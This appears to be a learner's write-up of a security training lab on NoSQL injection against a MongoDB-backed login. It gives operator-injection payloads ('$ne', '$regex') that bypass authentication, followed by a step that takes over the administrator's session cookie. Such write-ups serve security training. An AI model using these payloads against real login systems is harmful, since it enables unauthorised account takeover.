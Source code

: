The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.

To solve the lab, log into the application as the `administrator` user.

You can log in to your own account using the following credentials: `wiener:peter`.

---

Goal: Login to the admin account.

`{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`

username:
```php
{"$ne":"invalid"}
```

password:
```php
{"$ne":"invalid"}
```

```php
{"$ne":""}
```

```php
{"$regex":"admin.*"}
```

![[IMG/Pasted image 20240919105912.png]]

GET /my-account?id=admin5ou6hen8 

POST /login

Copy the cookie and update the browser with the new value. This allows me to steal the admin session and complete the lab. 

![[IMG/Pasted image 20240919111512.png]]

- Cookie value: `Value`


